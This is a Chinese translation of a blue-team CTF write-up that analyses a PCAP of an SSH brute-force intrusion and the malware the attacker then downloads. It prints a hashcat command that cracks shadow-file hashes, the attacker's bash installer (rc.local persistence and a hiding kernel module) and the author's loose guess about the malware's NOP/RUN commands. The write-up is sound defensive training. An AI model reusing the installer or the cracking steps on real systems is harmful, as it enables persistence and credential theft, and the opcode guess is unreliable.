# 密室——使用 Wireshark 进行 PCAP 分析

> 原文：<https://infosecwriteups.com/escaperoom-pcap-analysis-with-wireshark-ea7abcc68a18?source=collection_archive---------0----------------------->


[逃生室](https://mastermindescapegames.com/wp-content/themes/devsavvy/images/static/games-image.jpg)

这篇文章提供了我解决*在网络卫士网站上的蜜网项目*创建的**逃脱室** CTF 的方法，这是一个蓝队专注的挑战，要求你对 PCAP 文件进行分析并回答一系列问题。我在最后提供了一个网络卫士网站的链接，供有兴趣尝试这项挑战的人使用。

# 放弃

我喜欢在一篇文章之前添加一个简短的免责声明，以鼓励人们在阅读本文之前尝试 CTF，因为在这篇文章中显然会有**剧透** **。我相信，如果你先自己尝试，然后在遇到困难或需要提示时再来写这篇文章，你会更喜欢 CTF。因此，没有任何进一步的拖延，让我们开始吧！**

# 挑战场景

> 您属于一家专门通过基于 KVM 的虚拟机托管 web 应用程序的公司。周末，一台虚拟机宕机，站点管理员担心这可能是恶意活动的结果。他们从环境中提取了一些日志，希望您能够确定发生了什么。

# 挑战问题

> 1.攻击者使用了什么服务来访问系统？

我首先从 CTF 挑战赛提供的 ZIP 存档文件中提取了以下文件:

```
hp_challenge.pcap
ps.log
shadow.log
sudoers.log
```

接下来，我使用 Wireshark 打开 PCAP 文件，看到网络捕获文件中有 **SSH** 流量:



SSH 流量。

SSH 协议(也称为安全 Shell)是一种从一台计算机安全远程登录到另一台计算机的方法。导航到 Wireshark 中的“*统计数据>协议层次结构*，我可以看到捕获中所有协议的树:



Wireshark 协议层次结构

我能看到的唯一其他协议是 HTTP，这意味着 SSH 很可能是攻击者用来访问系统的服务。

> 2.使用了什么攻击类型来访问系统？(一个词)

为了回答这个问题，我从过滤 SSH 流量开始:



SSH 过滤器。

该过滤器的初始输出显示了建立 SSH 会话的多次失败尝试:



SSH 会话失败。

上图显示了尝试建立 SSH 会话时发生的不同步骤。这些步骤简述如下:

1.  客户端和服务器**协商 SSH 版本** ( *即 4 号包& 6 号包*)。
2.  客户端和服务器**交换公钥以生成密钥**。然后，服务器发出一个“*新密钥*”消息，并等待客户端应答。(*即 8、9、11、13、14 和 15 号包*)。
3.  客户端**确认服务器的*新密钥*消息** ( *即第 16 号数据包*)
4.  然后，在 SSH 会话关闭之前，我们会看到几个加密的数据包(即数据包编号 18、20、21 和 22 )。

向下查看 SSH 流量，我们看到这个过程重复了多次，直到接近 SSH 过滤输出的末尾。在数据包编号 **1365** 处，我们看到一个建立 SSH 会话的尝试，只是这次我们看到的加密数据包比之前的尝试多得多:



成功的 SSH 会话。

这在数据包编号 **1415** 处再次出现。这表明进行了两次成功的 SSH 身份验证尝试。我们还可以在 Wireshark 中导航到“*统计数据>对话> TCP 选项卡*”，从最高到最低过滤字节:



SSH 蛮力猜测攻击。

请看上面的截图，用红色突出显示的对话显示了成功的 SSH 会话，而下面的对话显示了 SSH **暴力猜测攻击。可以根据从服务器(B)发送到客户端(A)的字节来区分它们，其中成功的认证尝试会导致比不成功的认证尝试发送更多的数据。通过参考下面的文章，您可以了解有关用于事件响应的 SSH 协议分析的更多信息:**

 [## 基于 Wireshark - Infosec 资源的 IR: SSH 协议网络流量分析

### 安全外壳(SSH)旨在允许对计算机进行机密且经过身份验证的远程访问。像远程登录一样…

resources.infosecinstitute.com](https://resources.infosecinstitute.com/topic/network-traffic-analysis-for-ir-ssh-protocol-with-wireshark/) 

> 3.攻击者可能使用什么工具来执行这次攻击？

因为我们知道攻击者执行了 SSH 暴力攻击，所以我们可以执行快速的 google 搜索来确定可以使用什么工具来执行攻击。我的第二个热门搜索结果显示了一个名为 hydra 的工具，这就是答案:



SSH 暴力工具的谷歌搜索结果。

> 4.有多少次失败的尝试？

为了确定失败尝试的次数，我确保我仍然在主 Wireshark 视图中过滤 SSH 流量。


SSH 过滤器。

接下来，我在 Wireshark 中导航到“*统计数据>对话> TCP 标签*”。在“conversations”窗口的底部，有一个复选框选项，用于将我们看到的内容仅限于我们的显示过滤器(即 SSH 流量)。启用此选项后，我们只能在 TCP 选项卡下看到 SSH 流量:



SSH 对话

我们可以看到，总共有 54 次建立 SSH 会话的尝试，根据从服务器(B)发送到客户机(A)的字节数，只有两次成功。这意味着建立 SSH 会话的尝试失败了 52 次。

> 5.使用了什么凭证(用户名:密码)来获得访问权限？参考 shadow.log 和 sudoers.log。

作为挑战的一部分，我们收到了一个 *shadow.log* 和一个 *sudoers.log* 文件。如果我们查看 *shadow.log* 文件，我们可以看到 10 个 6 类密码散列(SHA-512)，包括它们的 salt:

```
ubuntu:$6$MOCeF0du$eCgZ9.I.hS5CDST1aQHozhLbBH6rAUj97vvW/22eaCynqLv/whZKM1freAN3n2XQiCWjDr0UFreVv0IAvI.fl0:15549:0:99999:7:::guest:$6$SaltVal1$MNuCQofLmz9CSSVdNGkdj7gRvcHeRinIVP2ezH5Q17oGC23EdbyAwZ6uzaknESS0W0TkgVpyqzGYqJMdxXSSl/:15549:0:99999:7:::gibson:$6$SaltVal3$ub1ejU/gJOqG1gKnGhSypMtVJouMJ9JmVOYgptXcL0HLSfA84ZH.uwngUpf5XiLp0hu/E2hVh.CLBp2U24Uac1:15549:0:99999:7:::sean:$6$SaltVal4$rIpTjZrVyyX4Lz0/TMvx3FjUbRRMEgKJ2vnQwBgaoSWeLm/VZifQvBco8AnpVQWhNvMolnyY43X5/i5YK/TIw.:15549:0:99999:7:::george:$6$SaltVal5$W3YtX9RKtQfqPWxg6/iaxwMYD8LFxP/zqvTsg5GNXi39ulbUSAR.lvjXHrpJdSISNAiWpb6kj2iNI6LlFWETC1:15549:0:99999:7:::roger:$6$SaltVal6$.1SaTeewycJ1oTmt/6yxAbEyezXhnOajmjP9KWhvNGhkOapy0CyGvEBSQyuL2.TbiEDAPhfoKgoHjbPjczvHH0:15549:0:99999:7:::timothy:$6$SaltVal7$B6dVnvXVmLuILd3oBeCjvjUAYnowMZ5IRm1k3xzKq/fo8MZV7rUMFU1hhzRvaw9.G6mPST8fL8R6cvWqppcpf.:15549:0:99999:7:::pierce:$6$SaltVal8$IUEDzxEsUcki.khFF/HOfbSa6uswLDmEGAobvvbz.8MYy9UvtPo6DCZrpcbLa2Ma4AUj65mNCr7xPP0kVH0tT/:15549:0:99999:7:::sterling:$6$SaltVal9$7oq808gj5Pm4vzJQ7rOWXHtUiJw.qfmEhcmqhGYWUr.r3n4/G5V12QWVaJq7DPura/ZEVPqEUUpMlYzv412Qb1:15549:0:99999:7:::manager:$6$SaltVal2$ybuPu7Nmo9LKn0p0ozhFhFw2SS2cqkLsx8c5OEAWFkIJjtXBEJqxUQzLh900QMgFTGiw6YuFDueNAapfLKt0f1:15549:0:99999:7:::
```

我使用了一个名为 **Hashcat** 的工具来破解这些哈希，我能够恢复两个密码:

```
hashcat64.exe -m 1800 -a 0 hash.txt rockyou.txt -o cracked.txtmanager:forgot
sean:spectre
```

> 6.可以用来获得访问权限的其他哪些凭据(用户名:密码)也具有 SUDO 权限？参考 shadow.log 和 sudoers.log。

请参考问题 5 的解决方案。

> 7.用于在系统上下载恶意文件的工具是什么？

基于我们之前的发现，我们知道除了 SSH 之外，唯一存在的其他协议是 HTTP。我过滤了 HTTP 流量，如下所示:



HTTP 过滤器。

我选择了第一个 HTTP 数据包，并跟踪它的 HTTP 流。如果我们仔细观察用红色突出显示的请求头，我们可以看到用户代理请求头的值为 **wget** ，这是一个通过 HTTP、HTTPS 和 FTP 下载从 web 服务器检索内容的工具。



Wget 用户代理。

> 8.攻击者下载多少文件来执行恶意软件安装？

为了回答这个问题，我在 Wireshark 中导航到“*文件>导出对象> HTTP* ”。在这个窗口中，我可以看到名为 **1** 、 **2** 和 **3** 的三个文件。还有多个带有 base64 编码文件名的 BMP 文件:



HTTP 对象。

> 9.主要的恶意软件 MD5 哈希是什么？

我可以导出所有三个文件，并将它们保存到我的本地机器上。查看每个文件，我可以看到前两个文件是 ELF 二进制文件，第三个文件是一个脚本:

```
$ file malware-1 malware-2 malware-3**malware-1**: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, no section header**malware-2**: ELF 64-bit LSB relocatable, x86-64, version 1 (SYSV), BuildID[sha1]=21064e0e38e436aa28aecd2612f20205977b3826, with debug_info, not stripped**malware-3**: Bourne-Again shell script, ASCII text executable
```

查看第三个文件(即恶意软件-3)的内容，我可以看到名为 1 的文件(即恶意软件-1)是主要的恶意软件文件:

```
#!/bin/bashmv **1** /var/mail/mail
chmod +x /var/mail/mail
echo -e "/var/mail/mail &\nsleep 1\npidof mail > /proc/dmesg\nexit 0" > /etc/rc.local
nohup /var/mail/mail > /dev/null 2>&1&
mv 2 /lib/modules/`uname -r`/sysmod.ko
depmod -a
echo "sysmod" >> /etc/modules
modprobe sysmod
sleep 1
pidof mail > /proc/dmesg
rm 3
```

然后，我可以检查所有三个文件的 MD5 哈希，并获得主要恶意软件文件的哈希:

```
$ md5sum malware-1 malware-2 malware-3**772b620736b760c1d736b1e6ba2f885b  malware-1**
2f41df5a12a1f64e47dede21f1c47326  malware-2
dadbb7fe0577d016bb825d3c59dc3715  malware-3
```

> 10.脚本修改了什么文件，恶意软件会在重启时启动？

如果我们参考前面看到的 bash 脚本的内容，我们可以注意到, *echo* 命令用于向“ **/etc/rc.local** ”脚本添加一个新命令。

```
echo -e "/var/mail/mail &\nsleep 1\npidof mail > /proc/dmesg\nexit 0" > /etc/rc.local
```

该脚本通常在所有正常系统服务启动后执行，在切换到多用户运行级别的过程结束时执行，并可用于启动定制服务。

> 11.恶意软件将本地文件保存在哪里？

同样，查看 bash 脚本的内容，我们可以看到恶意软件将本地文件存储在“/var/mail”文件夹中。

```
mv 1 /var/mail/mail
```

> 12.ps.log 缺什么？

Linux 为我们提供了一个名为 **ps** ( **“进程状态”**)的实用程序，用于查看系统上进程的相关信息，并用于列出当前正在运行的进程。根据我们在上面的 bash 脚本中看到的，我们应该会看到“ **/var/mail/mail** ”进程正在运行，但是它似乎不在 ps.log 文件中。

> 13.用于从 ps.log 中删除该信息的主文件是什么？

查看 bash shell 脚本，我们可以看到文件名 **2** (即恶意软件-2)存储在“ */etc/modules* ”文件夹中，名为 **sysmod.ko** :

```
mv 2 /lib/modules/`uname -r`/sysmod.ko
depmod -a
echo "sysmod" >> /etc/modules
modprobe sysmod
```

“ */etc/modules* ”文件包含要在引导时加载的内核模块的**名称，每行一个。由于文件 1(即恶意软件-1)是主要的恶意软件文件，文件 3(即恶意软件-3)是外壳脚本，我们可以假设文件 2(即恶意软件-2)用于从 *ps.log* 文件中删除信息。**

> 14.在 Main 函数中，向那些服务器发出请求的函数是什么？

因为我们知道 malware-1 是主要的恶意软件文件，所以我首先使用 strings 实用程序来识别任何感兴趣的函数名，这些函数名将用于向托管恶意软件文件的服务器发出请求。在执行这个搜索时，我看到了字符串 **UPX** :

```
**UPX!   **                                                                                                                                                                    
'[@6](http://twitter.com/6)!O                                                                                                                                                                      
9,!O                                                                                                                                                                       
7Q;l                                                                                                                                                                       
/lib64
nux-x86-
so.2
!Co>C
__gmon_start
```

UPX(可执行文件的终极打包器)是一个开源的可执行打包器，在恶意软件领域很常见。我们可以使用下面的命令解压文件:

```
upx -d malware-1
```

使用 Strings 实用程序，我可以看到许多有趣的函数名，包括名为 **requestFile、**的函数，我们可以假设它用于从服务器请求文件:



恶意软件功能。

> 15.恶意软件联系的一个 IP 地址以 17 开头。提供完整的 IP。

我们可以回头参考“*文件>导出对象> HTTP* ”，在这里我们可以看到恶意软件用来下载 BMP 文件的以 **17** 开头的 IP 地址:



恶意软件接触的 IP。

> 16.恶意软件从外部服务器请求了多少文件？

对 malware-1 使用字符串实用程序，我可以看到外部服务器的四个 IP 地址:



外部服务器 IP 地址。

在 Wireshark 中，我总共可以看到十二个 HTTP 对象，三个恶意软件文件和九个 BMP 文件。



恶意软件请求的文件数量。

> 17.恶意软件从攻击者服务器接收的命令是什么？格式:按字母顺序逗号分隔

为了回答这个问题，我使用 Ghidra 对主要的恶意软件文件进行逆向工程，并从查看主要函数开始:



恶意软件主要功能。

在 main 函数中，我可以看到几个有趣的函数，比如 makeKeys()、requestFile()、decryptMessage()，特别是 **processMessage()** 函数。进一步分析 processMessage()函数，我可以看到逻辑语句中使用了一些十六进制编码的参数值:



恶意软件 processMessage()函数。

在 CyberChef 中解码这些值给了我们两个操作码助记符，NOP 和 RUN:



恶意软件命令。

NOP 代表“无操作”，而通常用于**产生执行延迟或在代码存储器**中保留空间。根据可用的指令集，我找不到名为 RUN 的操作码助记符，但我们可以假设它用于运行与 NOP 操作码延迟相关的命令。您可以使用下面的链接查看 x86 指令的完整列表:

[](https://en.wikipedia.org/wiki/X86_instruction_listings) [## x86 指令列表-维基百科

### x86 指令集是指 x86 兼容的微处理器支持的指令集。说明…

en.wikipedia.org](https://en.wikipedia.org/wiki/X86_instruction_listings) 

# 结束语

我真的很喜欢通过这个 CTF 工作，并有机会了解更多关于使用 Wireshark 分析捕获的流量和使用 Ghidra 反向工程恶意软件样本的信息。谢谢你一直读到最后，继续黑下去😄！

[](https://cyberdefenders.org/) [## 网络卫士:蓝队 CTF 挑战

### 网络卫士的想法是在两位联合创始人致力于一个联合项目以培训一支…

cyberdefenders.org](https://cyberdefenders.org/)